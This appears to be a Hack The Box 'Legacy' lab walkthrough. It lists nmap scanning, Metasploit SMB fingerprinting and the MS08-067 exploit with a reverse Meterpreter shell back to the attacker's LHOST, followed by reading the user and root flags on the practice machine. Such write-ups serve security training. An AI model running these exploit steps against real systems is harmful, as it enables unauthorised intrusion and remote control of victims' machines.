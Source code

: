 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
[nmap-initial]("./screenshots/nmap-initial.png")

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
[msf-smb_version]("./screenshots/mfs-smb_version.png")

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
[msf-smb_version_result]("./screenshots/mfs-smb_version_res.png")

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
[meterpreter-info]("./screenshots/meterpreter-info.png")

```
cd ../../"documents and settings"
```
```
dir
```
[meterpreter-doc_set]("./screenshots/meterpreter-doc_set.png")
```
cd john/Desktop
```

```
cat user.txt
```
[user-flag]("./screenshots/user-flag.png")

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
[root-flag]("./screenshots/root-flag.png")
